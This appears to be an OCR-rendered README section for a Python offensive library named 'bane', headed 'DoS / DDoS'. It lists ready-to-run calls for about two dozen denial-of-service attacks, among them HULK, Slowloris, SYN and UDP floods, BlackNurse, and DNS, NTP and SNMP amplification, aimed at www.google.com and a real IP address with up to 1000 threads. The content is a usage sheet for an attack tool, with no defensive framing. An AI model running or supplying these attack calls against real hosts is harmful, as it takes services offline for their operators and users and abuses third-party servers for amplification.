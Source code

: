 
<br><h1>DoS / DDoS:</h1> (useful link: https://en.wikipedia.org/wiki/Denial-of-service_attack )



<br>bane.hulk('www.google.com',threads=1000) #hulk attack

<br>bane.proxhulk('www.google.com',threads=1000) #hulk attack with http proxies

<br>bane.slowloris('www.google.com',p=80,threads=50) #slowloris attack

<br>bane.xerxes('www.google.com',p=443,threads=500) #xerxes attack

<br>bane.httpflood('www.google.com',p=80,threads=1000) #http flood

<br>bane.lulzer('www.google.com',p=80,threads=1000) #http flood with proxies

<br>bane.tcpflood('www.google.com',threads=1000) #tcp flood

<br>bane.udp('50.63.33.34',p=80) #udp flood

<br>bane.doser('https://www.google.com',threads=500)

<br>bane.proxdoser('https://www.google.com',threads=500)

<br>bane.torshammer('www.google.com',p=80,threads=1000)

<br>bane.slowread('www.google.com',p=80,threads=1000)

<br>bane.apachekiller('www.google.com',p=80,threads=500)

<br>bane.goldeneye('www.google.com',p=80,threads=1000)

<br>bane.medusa('www.google.com',p=80,threads=1000)

<br>bane.icmp('50.63.33.34',p=80,threads=100)

<br>bane.synflood('50.63.33.34',p=80,threads=100)

<br>bane.icmpstorm('50.63.33.34',p=80,threads=100)

<br>bane.land('50.63.33.34',p=80,threads=100)

<br>bane.udpstorm('50.63.33.34',p=80,threads=100)

<br>bane.blacknurse('50.63.33.34',p=80,threads=100)

<br>bane.dnsamplif('50.63.33.34',p=80,dnslist=[your_dns_servers_list_here],threads=100)

<br>bane.ntpamplif('50.63.33.34',p=80,dnslist=[your_ntp_servers_list_here],threads=100)

<br>bane.snmpamplif('50.63.33.34',p=80,dnslist=[your_snmp_servers_list_here],threads=100)


